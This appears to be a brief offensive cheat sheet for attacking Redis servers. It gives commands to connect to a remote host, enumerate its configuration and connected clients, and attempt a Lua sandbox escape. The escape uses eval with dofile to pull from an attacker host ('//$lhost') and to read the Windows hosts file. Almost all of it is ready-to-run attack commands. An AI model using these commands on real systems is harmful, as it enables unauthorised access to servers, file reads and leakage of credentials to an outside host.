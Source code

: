 # connect

```bash
redis-cli -h "$rhost"
```

# enumerate

```bash
INFO
client list
CONFIG GET *
monitor
```

# lua sandbox escape

```bash
eval "dofile('//$lhost/asdf')" 0
eval "dofile('C:\\\Windows\\\System32\\\drivers\\\etc\\\hosts')" 0
```
